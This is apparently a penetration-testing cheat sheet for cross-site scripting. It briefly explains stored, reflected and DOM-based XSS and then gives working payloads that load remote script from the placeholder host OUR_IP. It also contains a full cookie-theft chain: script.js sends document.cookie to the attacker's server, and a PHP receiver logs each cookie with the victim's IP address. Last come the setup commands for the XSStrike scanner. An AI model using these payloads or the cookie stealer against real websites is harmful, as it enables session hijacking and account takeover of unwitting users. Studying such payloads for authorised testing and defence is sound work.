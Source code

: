 ## XSS

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

- Stored (Persistent) XSS 	The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)

- Reflected (Non-Persistent) XSS 	Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)

- DOM-based XSS 	Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)

### Payloads
```html
<script>alert(window.origin)</script>
<img src="" onerror=alert(window.origin)>

<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
## Custom payload :
```html
<script src=http://OUR_IP/script.js></script>
```

Content of "script.js"
```js
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

Content of index.php
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

### XSS Discovery
```bash
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```
